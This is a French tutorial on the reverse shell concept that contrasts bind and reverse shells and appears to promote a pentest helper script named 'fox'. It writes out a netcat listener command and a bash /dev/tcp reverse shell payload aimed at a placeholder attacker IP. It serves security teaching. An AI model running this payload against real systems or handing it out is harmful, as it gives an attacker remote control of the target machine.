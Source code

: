 # Tutoriel : Le concept des Reverse Shells

Un "shell" est une interface de ligne de commande pour contrôler un système. Obtenir un shell sur une machine cible est souvent le but principal d'un attaquant. Il y a deux manières principales d'y parvenir : le Bind Shell et le Reverse Shell.

---

## Bind Shell vs Reverse Shell

-   **Bind Shell :** Le payload sur la machine **cible** ouvre un port et attend une connexion **entrante** de l'attaquant. C'est simple, mais souvent bloqué par les pare-feux (firewalls) qui interdisent les connexions entrantes sur des ports aléatoires.

-   **Reverse Shell (Shell Inversé) :** Le payload sur la machine **cible** initie une connexion **sortante** vers l'attaquant. L'attaquant, lui, se met en écoute sur un port. C'est beaucoup plus efficace car les règles de pare-feu sont souvent plus permissives pour le trafic sortant (la cible a le droit de se connecter à l'extérieur).

**Le Reverse Shell est la technique la plus utilisée dans 90% des cas.**

---

## Les Deux Composants d'un Reverse Shell

Pour qu'un reverse shell fonctionne, il faut deux choses :

### 1. Le Listener (L'auditeur)

C'est un programme sur **VOTRE** machine qui ouvre un port et attend la connexion de la cible. L'outil le plus simple pour cela est **Netcat** (`nc`).

```bash
# Se met en écoute sur le port 4444
nc -lvnp 4444
```

- `-l` : Mode écoute (Listen).
- `-v` : Verbeux, pour voir quand quelqu'un se connecte.
- `-n` : Ne pas résoudre les noms DNS (plus rapide).
- `-p` : Spécifie le port.

### 2. Le Payload (La charge utile)

C'est la commande que vous devez exécuter sur la machine **CIBLE**. Cette commande unique lui dit de se connecter à votre machine (votre IP, votre port) et de vous donner son shell.

Il existe des centaines de variantes de payloads en fonction du système (Linux, Windows) et des technologies disponibles sur la cible (Bash, Python, PHP, etc.).

**Exemple en Bash :**
```bash
bash -i >& /dev/tcp/VOTRE_IP/VOTRE_PORT 0>&1
```

---

### 💡 L'Aide du Copilote

Mettre en place un reverse shell peut être source d'erreurs (faute de frappe dans l'IP, mauvais payload...). Le script `fox` automatise et fiabilise ce processus de deux manières :

1.  **Le Générateur de Payloads (`Payload Generator > Reverse Shells`)
    -   **Détection d'IP :** Il détecte automatiquement votre adresse IP (LHOST) pour la pré-remplir.
    -   **Guidage :** Il vous demande simplement le port d'écoute (LPORT).
    -   **Bibliothèque de Payloads :** Il vous propose un menu pour choisir le type de payload (Bash, Python, PHP...) à partir de modèles fiables.
    -   **Génération Automatique :** Il génère la commande exacte, sans risque d'erreur, et la sauvegarde dans un fichier pour un copier-coller facile.

2.  **Le Listener Rapide (`Accès Rapide > Démarrer un Listener Netcat`)
    -   Cette option vous demande juste le port et lance la commande `nc -lvnp` pour vous. Plus besoin de mémoriser les options.

**Avantage :** Le copilote élimine les erreurs manuelles et accélère considérablement la mise en place d'un reverse shell, vous permettant de vous concentrer sur l'exploitation plutôt que sur la syntaxe.
